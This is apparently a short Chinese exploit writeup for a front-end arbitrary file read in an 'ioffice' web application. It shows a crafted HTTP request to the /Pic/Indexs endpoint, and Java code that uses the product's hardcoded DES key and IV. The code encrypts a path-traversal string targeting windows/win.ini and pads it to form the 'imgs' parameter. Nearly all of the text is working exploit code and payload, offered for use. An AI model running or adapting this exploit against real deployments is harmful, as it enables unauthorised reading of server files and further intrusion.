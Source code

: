 ```php
GET /Pic/Indexs?imgs=Vieapcg5Db3PFro9X1GI0QdikpPVe6TmlgvNfjPkqO2+ZjprzMdy0Q==GG HTTP/1.1
Host: 10.10.11.184:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

![](https://cdn.nlark.com/yuque/0/2023/png/12959325/1696603693083-2ad94815-aff2-4e11-b81f-6ef68d55638c.png)

1、前台文件读取加密exp编写-加密数据exp-获取key和iv

![](https://cdn.nlark.com/yuque/0/2024/png/12959325/1706068084850-be19962e-b158-49b9-a775-72252c7b2820.png)

java

```php
import javax.crypto.Cipher;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;
import java.util.Base64;
public class ioffice_web_pic_indexs {
    private static byte[] key = {(byte)102, (byte)16, (byte)93, (byte)156, (byte)78, (byte)4, (byte)218, (byte)32};
    private static byte[] iv = {(byte)55, (byte)103, (byte)246, (byte)79, (byte)36, (byte)99, (byte)167, (byte)3};

    public static void main(String[] args) {
        String readFile = "../../../../../../windows/win.ini"; // 替换为你的输入字符串
        System.out.println("input: " + readFile);
        byte[] encryptedText = desEncrypt(readFile.getBytes());
        String base64Encoded = Base64.getEncoder().encodeToString(encryptedText);
        // 补位 imgs.Length-2 以下随意填充2个字符
        base64Encoded += "GG";
        System.out.println(base64Encoded);
    }

    public static byte[] desEncrypt(byte[] plaintext) {
        try {
            SecretKeySpec keySpec = new SecretKeySpec(key, "DES");
            IvParameterSpec ivSpec = new IvParameterSpec(iv);
            Cipher cipher = Cipher.getInstance("DES/CBC/PKCS5Padding");
            cipher.init(Cipher.ENCRYPT_MODE, keySpec, ivSpec);
            return cipher.doFinal(plaintext);
        } catch (Exception e) {
            e.printStackTrace();
            return null;
        }
    }
}
```
